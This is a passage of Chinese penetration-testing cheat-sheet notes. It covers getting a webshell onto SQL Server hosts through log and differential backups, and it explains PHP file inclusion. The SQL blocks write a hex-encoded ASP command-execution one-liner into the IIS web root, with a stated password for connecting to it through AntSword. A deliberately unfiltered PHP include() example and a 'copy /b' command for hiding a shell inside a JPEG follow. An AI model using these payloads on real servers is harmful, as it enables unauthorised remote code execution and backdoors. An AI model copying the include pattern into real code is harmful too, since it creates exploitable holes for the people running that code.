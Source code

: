   ```
  if exists(select table_name from information_schema.tables where table_name='test_tmp') drop table test_tmp;
  create table test_tmp (a image);	//新建临时表
  backup log test to disk = 'C://inetpub//wwwroot//asp.bak' with init;	//备份日志到指定路径
  insert into test_tmp (a) values (0x3C25657865637574652872657175657374282261222929253EDA);
  backup log test to disk = 'C://inetpub//wwwroot//123.asp'; -->连接`蚁剑`密码为a
  ```

- `差异备份`写shell

- ```sql
  #差异备份条件
  - dbo权限
  - 知道绝对路径,可写
  - http 500 错误不是自定义
  - web和数据库在一块.还有的就是数据库不能存在%号特殊字符
  - 数据量不能太大
  - Tips: 差异备份写shell容错率相对较差,通常利用存储过程日志备份写shell更为快捷键
  
  use test;	//选中库
  backup database test to disk = 'c://inetpub//wwwroot//mssql1.bak';	//手动备份一次
  create table test..test1(a image);	//新建临时表
  insert into test..test(a) values (0x3C25657865637574652872657175657374282261222929253EDA);	//插入一句话木马到表中,注意16进制
  backup database test to disk = 'c://inetpub//wwwroot//shell.asp' with differential.format;	//进行差异化备份
  drop table test..test1;	//备份完getshell后删除表
  ```

  ****

### 文件包含

#### 常见的文件包含函数

> `include`,`include_once`,`require`,`require_once`,`hight_file`,`show_source`,`readfile`,`file_get_contents`,`fopen`,`file`

- 概念:程序开发人员通常会把`可重复使用的函数`写到单个文件中,在使用某个函数的时候,`直接调用此文件`,无需再次编写
- 原因:为了代码更灵活,通常会把`被包含的文件设置为变量`,进行`动态调用`,从而导致客户端可以`调用任意文件`,造成文件包含漏洞.动态包含的`文件路径参数`,客户端可控

- include() -->找不到被包含的文件时之产生`警告`,脚本将`继续执行`
- include_once() -->和include类似,唯一区别是如果该文件中的代码`已经被包含`,则不会被`再次包含`
- require() -->找不到被包含的文件时会产生`致命的错误`,并`停止脚本`
- require_once() -->和require类似,唯一区别是如果文件被包含则不会被再次包含
- `require`和`include`的区别:使用`require`时,只要`程序执行`则`立即调用文件`.而`include`只有`程序执行`到`该函数`才会被调用
- 其它用于包含的函数:`highlight_file()`,`show_source()`,`readfile()`,`file_get_contents()`,`fopen()`,`file()`

```php
//经典代码,对$_GET['filename']参数没有经过严格的过滤,直接带入了include()函数,攻击者可以修改$_GET['filename']的值,加载其它文件,执行非预期的操作
<?php
$filename=$_GET['filename'];
include($filename)
?>

//图片马制作
copy /b 1.jpg + shell.php image_with_payload.jpg
```
